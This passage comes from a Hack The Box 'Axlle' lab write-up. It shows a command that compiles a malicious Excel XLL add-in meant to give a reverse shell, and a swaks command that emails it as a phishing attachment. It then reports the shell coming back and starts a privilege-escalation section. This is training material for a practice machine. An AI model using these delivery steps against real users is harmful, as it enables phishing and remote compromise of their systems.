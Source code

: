 Now that exploit.c is ready, we will compile it:

`x86_64-w64-mingw32-gcc -fPIC -shared -o shell.xll exploit.c -luser32`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-4.png)

Let's send the compiled shell.xll to `accounts@axlle.htb` using swaks:

`swaks --to accounts@axlle.htb --from root@test.htb --body "Shell" --header "Subject: Help me Breach the System" --attach @shell.xll`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-5.png)

Waiting for a few seconds, user inside the system reads the maliciously crafted payload and executes the reverse shell command:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-2.png)

## Privesc: gideon to dallon

Exploring around the file system, we discovered .eml file inside hmailserver:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-6.png)
